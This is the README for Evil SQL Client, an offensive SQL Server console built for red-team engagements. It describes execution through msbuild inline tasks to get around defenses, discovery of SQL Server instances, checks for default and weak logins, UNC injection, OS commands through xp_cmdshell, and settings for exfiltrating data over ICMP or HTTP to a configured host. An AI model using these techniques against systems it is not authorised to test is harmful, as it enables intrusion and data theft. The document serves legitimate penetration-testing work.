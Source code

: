 # Evil SQL Client (ESC)
 Version: v1.0 <Br>
 Author: Scott Sutherland (@_nullbind), NetSPI <Br>
<br>
Evil SQL Client (ESC) is an interactive .net SQL console client with enhanced server discovery, access, and data exfiltration features. :)  Built for execution as a stand alone assembly, or through a alternative mediums for .net code execution such as msbuild and PowerShell. While it is a very handy SQL Client for legitimate purposes, it was designed for use during penetration testing and red team engagements.<br>
 
Most of ESC's functionality is based on the [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL/wiki/), [DAFT](https://github.com/NetSPI/DAFT), [SQLC2](https://github.com/NetSPI/SQLC2), and [SQLInjectionWiki](https://sqlwiki.netspi.com/) projects which are also related to SQL Server.

# Execution Options
Below is a list of the currently supported commands.

### Compile and Run Exe
1. Open project in Visual Studio from the esc folder.
2. Build.
3. Run esc.exe.

![buildesc](https://github.com/NetSPI/ESC/blob/master/screenshots/start-esc-compile-1.png) 
![runescexe](https://github.com/NetSPI/ESC/blob/master/screenshots/start-esc-compile-2.png) 

### Download and Run Exe
1. Download compiled [release](https://github.com/NetSPI/ESC/releases). 
2. Run esc.exe.
  
### Download and Run via MSbuild.exe
 
Evil SQL Client console can be run through msbuild inline tasks using the [esc.csproj file](https://github.com/NetSPI/ESC/blob/master/esc.csproj) or [esc.xml file](https://github.com/NetSPI/ESC/blob/master/esc.xml).<br>  Using msbuild.exe to execute .net code through inline tasks is a technique that was researched and popularized by Casey Smith. Related material can be found [here](https://bleepsec.com/2018/11/26/using-attack-atomic-red-team-part1.html). 

<strong>esc.proj</strong><br>
esc.proj includes all of the original c sharp source code inline. 

<strong>esc.xml</strong><br>
esc.xml works a little differently and has the entire esc.exe hardcoded as a string which is then loaded through reflection using a technique recently highlighted in the [GhostBuild](https://github.com/bohops/GhostBuild) project by @bohops.  

Updating esc.xml:<br>
To update the esc.xml follow the instructions below:
1. Download and compile esc.exe.
2. Run [Out-Compressdll](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1) (by @mattifestation) against esc.exe.
`Out-CompressedDll -FilePath esc.exe | out-file output.txt`
3. Replace the compressedBin string in esc.xml with the "EncodedCompressedFile" string generated from Out-CompressDll.
4. Replace compressedBinSize with the size generated from Out-CompressDll.
5. Run the script.
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe esc.xml`

<strong>Execution Examples</strong><br>
Below are a few script exectuion examples. Msbuild can accept filepaths on the command line, but no filename has to be provided if only one .csproj file exists in the directory your executing msbuild.exe from.  

In the examples below, esc.csproj has been renamed to 1.csproj:

 ` C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe ` <br>
 ![runescexe](https://github.com/NetSPI/ESC/blob/master/screenshots/start-esc-msbuild-1.png) 
 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe esc.csproj` <Br>
 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe esc.xml` <br>
![runescexe](https://github.com/NetSPI/ESC/blob/master/screenshots/start-esc-msbuild-2.png) 
  
 # Supported Commands

 ### COMMAND LIST
 <pre>
    SHOW:
     show settings 			Show connection and exfil settings.
     show discovered 			Show discovered instances. 
     show access  			Show accessible instances, versions, and other information.
     show help 				Show this help page.
 
    CONFIGURE INSTANCE:
     set targetall			Target all accessible SQL Server instances. List with 'show access' command.
     set instance instancename		Target a single instance.  Instance formats supported include: 
 				    	server1
 				    	server1\instance1
 				    	server1,1433
     set connstring stringhere 		Set a custom connection string. Examples below.
				   	 Server=Server\Instance;Database=Master;Integrated Security=SSPI;Connection Timeout=1
				    	Server=Server\Instance;Database=Master;Integrated Security=SSPI;Connection Timeout=1;uid=Domain\Account;pwd=Password;
				    	Server=Server\Instance;Database=Master;Connection Timeout=1;User ID=Username;Password=Password
 
    CONFIGURE CREDENTIALS:
     set username username 		User for authenticatiing to SQL Server instances.
 				   	Defaults to current Windows user if no username or password is provided.
				   	Accepts SQL login, local Windows user, or domain user.  
				    	example: sqluser
				    	example: localhost\localuser
				    	example: domain\domainuser
     set password password		Password for the provided username.  
 				    	Defaults to current Windows user if no user or password is provided.
 
    QUERY COMMANDS:
     set timeout 1			Set query timeout. Useful over slow connections.
     query				Arbitrary TSQL query can be executed once a valid connection string is configured.
				    	To run against all accessible instances type 'set targetall enabled'.
				    	Type the query, then go, and press enter. Multi-line queries are supported.
				    	Note: You don't have to type the word 'query'.
				    	Example:
				    	SELECT @@VERSION
				    	GO
 
    DISCOVERY COMMANDS:
     discover broadcast			Discover SQL Server instances via a broadcast request.
     discover domainspn			Discover SQL Server instances via LDAP query to the default DC for MSSQL SPNs.
     discover file filepath		Discover SQL Server instance listed in a file.  One per line.
				    	Format examples: 
				    	hostname 
				    	hostname\instance
				    	hostname,port
     show discovered			Display the list of discovered SQL Server instances.
     export discovered outpath		Export the list of discovered SQL Server instances to a file. 
				   	 Example: export discovered c:\windows\temp\sqlinstances.txt
     clear discovered			Clear list of discovered SQL Server instances.

    INITAL ACCESS COMMANDS:
     check access			Attempts to log into all discovered SQL Server instances.  
 				    	Uses current Windows/Domain user by default. 
				    	Note: Will use alternative credentials if provided. (set username / set password)
     show access			List SQL Server instances that can be logged into.
     export access outpath		Export list of SQL Server instances that can be logged into to a file.
     clear access			Clear the in memory list of SQL Server instances that can be logged into.			
     check defaultlogins		Attempts to identify SQL Server instances that match known application and attempts the associate usernames and passwords.


    POST EXPLOITATION COMMANDS:
     list serverinfo			List server information for accessoble target SQL Server instances.
     list databases			List databases for accessoble target SQL Server instances.
     list tables			List tables information for accessoble target SQL Server instances.
  				    	Limits results to databases the login user has access to.
     list links				List links information for accessoble target SQL Server instances.
     list logins			List logins information for accessoble target SQL Server instances.
     list rolemembers			List rolemember information for accessoble target SQL Server instances.
     list privs				Check accessible target SQL Server instances for logins that use their login as a password.  
     check loginaspw     		Check accessible target SQL Server instances for logins that use their login as a password.                         
     check uncinject IP			Connect to taret SQL Server instance and perform UNC injection back to provide IP.	     
     run OSCMD command			Run os command through xp_cmdshell on the accessible target SQL Server instances. 
 				    	*Requires sysadmin privileges.
 
    CONFIGURE DATA EXFILTRATION: 
     set file enabled
     set filepath c:\temp\file.csv
     set icmp tenabled
     set icmpip 127.0.0.1
     set http enabled
     set httpurl http://127.0.0.1
     set encrypt enabled
     set enckey MyKey!
     set encsalt MySalt!

    MISC COMMANDS:
     help
     clear
     exit
 </pre>
 
 ### Recommended Command Sequence
 Below is a recommended command sequence for those of you who want to quickly discover SQL Server instances and determine which ones you have immediate access to.
 <pre>
 discover domainspn 
 discover broadcast
 show discovered
 set targetall enabled
 show settings
 check access
 check defaultpw
 check loginaspw
 show access
 export discovered c:\temp\discovered.csv
 export access c:\temp\access.csv
 export access c:\temp\access.csv instance
 </pre>
 
 # Pending Features
* Add discover local 
* Add column find
* Add domain account enumeration
* Add link crawl + linkquery + linkoscmd
* Add escalate dbowner
* Add escalate imperonsate
* Threading
* Finish data encryption
* Create python/powershell script to decrypt encrypted exfiltrated data
